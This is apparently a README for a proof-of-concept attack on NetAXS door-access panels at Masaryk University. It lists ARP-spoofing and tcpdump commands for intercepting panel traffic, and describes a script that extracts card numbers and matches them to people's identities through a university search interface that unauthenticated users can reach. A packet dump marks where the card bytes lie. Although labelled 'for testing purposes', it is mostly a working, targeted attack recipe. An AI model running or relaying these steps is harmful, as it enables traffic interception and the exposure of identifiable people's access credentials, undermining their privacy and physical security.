 # MUNI NetAXS sniffer POC - for testing purposes

## DO NOT FORGET TO ALLOW IPV4 FORWARDING!
``` sudo bash -c 'echo 1 > /proc/sys/net/ipv4/ip_forward' ```

``` sudo arpspoof -i eth0 [IP of NetAXS] -t [IP of Gateway] ```
``` sudo arpspoof -i eth0 [IP of Gateway] -t [IP of NetAXS] ```

``` sudo tcpdump -X -i eth0 tcp and src [IP of NetAXS] | python3 netaxs_muni.py ```

or to filter out duplicities use a MAC address

``` sudo tcpdump -X -i eth0 tcp and ether src [MAC of NetAXS] | python3 netaxs_muni.py ```

script netaxs_muni.py will take the 4 bytes from packet (marked as "CARD HERE" in the example), converts them to endianity compatible with is.muni.cz, then uses old search interface from "Úschovna" which is capable
of search based on the card number (even for unauthentized users!!). Because NetAXS gives us only last 4 bytes (ignores the first one), the script tries most used prefixes used on MUNI (06, 08, 0E)
If the úschovna search is successful, script prints out the Identity together with full card number.

example:
```
19:30:36.842327 IP [IP of NetAXS] > [IP of Database server]: Flags [P.], seq 810:927, ack 100, win 8816, length 117
	0x0000:  4500 009d 155b 4000 4006 51b1 93fb cc7b  E....[@.@.Q....{
	0x0010:  93fb dedc 0bb9 e812 a28c c594 671c cde7  ............g...
	0x0020:  5018 2270 12ff 0000 0473 0000 014d 2302  P."p.....s...M#.
	0x0030:  0106 0001 0064 0005 5754 0001 5b1d 603c  .....d..WT..[.`<
	0x0040:  0000 0000 0003 0002 0306 0000 0002 0000  ................
	0x0050:  0000 CARD HERE 0000 0000 0000 0000 4d69  ..****........Mi
	0x0060:  7261 6b5a 6164 6e69 5663 686f 6443 7465  rakZadniVchodCte
	0x0070:  636b 6132 6100 0000 0000 0000 0000 0000  cka2a...........
	0x0080:  0000 0000 0000 0000 0000 0000 0000 0000  ................
	0x0090:  0000 0000 0000 0000 0000 0403 58         ............X
```


